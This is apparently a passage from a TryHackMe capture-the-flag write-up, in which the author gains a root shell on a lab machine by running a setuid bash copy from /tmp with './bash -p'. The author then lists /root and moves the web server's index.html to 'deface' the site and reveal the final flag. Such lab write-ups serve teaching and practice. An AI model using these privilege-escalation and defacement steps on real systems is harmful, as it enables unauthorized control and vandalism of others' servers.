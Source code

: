 ```
drwxrwxrwt  2 root root    4096 Oct 19 19:59 .XIM-unix
server-admin@duckyinc:~$ cd /tmp
server-admin@duckyinc:/tmp$ ./bash -p
bash-4.4# whoami
root
```

We are now root... and it's not yet over...
```
bash-4.4# cd /root
bash-4.4# ls -la
total 52
drwx------  7 root root 4096 Aug 28 03:10 .
drwxr-xr-x 24 root root 4096 Aug  9 15:17 ..
drwxr-xr-x  2 root root 4096 Aug 12 18:46 .bash_completion.d
lrwxrwxrwx  1 root root    9 Aug 10 12:54 .bash_history -> /dev/null
-rw-r--r--  1 root root 3227 Aug 12 18:46 .bashrc
drwx------  3 root root 4096 Aug  9 16:15 .cache
drwx------  3 root root 4096 Aug  9 15:31 .gnupg
drwxr-xr-x  5 root root 4096 Aug 12 18:44 .local
-rw-------  1 root root  485 Aug 10 00:44 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Aug 10 13:21 .selected_editor
drwx------  2 root root 4096 Aug  9 15:29 .ssh
-rw-------  1 root root 7763 Aug 12 18:57 .viminfo
```
There's no flag in `/root` ... so I went to THM room to check that last hint, see what I actually missed and it said: `Mission objectives` ... Our `mission` was to deface the front page... so let's do that.

```
bash-4.4# mv /var/www/duckyinc/templates/index.html /tmp/
bash-4.4# ls -la
total 56
drwx------  7 root root 4096 Oct 19 20:04 .
drwxr-xr-x 24 root root 4096 Aug  9 15:17 ..
drwxr-xr-x  2 root root 4096 Aug 12 18:46 .bash_completion.d
lrwxrwxrwx  1 root root    9 Aug 10 12:54 .bash_history -> /dev/null
-rw-r--r--  1 root root 3227 Aug 12 18:46 .bashrc
drwx------  3 root root 4096 Aug  9 16:15 .cache
-rw-r--r--  1 root root   26 Oct 19 20:04 flag3.txt
drwx------  3 root root 4096 Aug  9 15:31 .gnupg
drwxr-xr-x  5 root root 4096 Aug 12 18:44 .local
-rw-------  1 root root  485 Aug 10 00:44 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Aug 10 13:21 .selected_editor
drwx------  2 root root 4096 Aug  9 15:29 .ssh
-rw-------  1 root root 7763 Aug 12 18:57 .viminfo
```
After we move `index.html` out of it's location, we can see a `flag3.txt` pop in `/root`.

Get the flag and GTFO!